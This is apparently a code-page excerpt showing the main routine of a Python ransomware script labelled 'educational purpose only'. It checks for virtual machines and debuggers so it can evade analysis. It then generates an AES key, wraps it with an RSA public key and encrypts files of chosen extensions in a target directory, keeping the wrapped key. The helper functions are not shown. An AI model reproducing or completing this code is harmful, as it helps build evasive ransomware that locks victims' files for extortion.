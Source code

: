 ### **Block** `**if __name__ == "__main__":**`

    # Main
    if __name__ == "__main__":
        print("WARNING: Educational purpose only.")
        
        # Anti-analysis: Exit if running in VM
        if is_vm():
            print("Running in a VM, exiting...")
            exit()
    
        # Run anti-debugging checks
        adbg()
        chb()
        ctm()
    
        input("Press Enter to continue (Ctrl+C to cancel)...")
        
        aes_k = gn_k()  # Generate AES key
    
        # Load public RSA key
        pub_k_path = "public_key.pem"
        pub_k = ld_puk(pub_k_path)
        
        # Encrypt the AES key
        enc_aes_k = enc_k(aes_k, pub_k)
    
        # Load extensions
        ext_path = "extensions.txt"
        exts = ld_ext(ext_path)
    
        # Target directory for encryption
        target_dir = "C:\\TestFolder"  # Update to your target
    
        # Encrypt the directory
        inf_d(target_dir, aes_k, exts)
    
        # Simulate storing the encrypted AES key
        with open("encrypted_aes_key.bin", "wb") as f:
            f.write(enc_aes_k)
    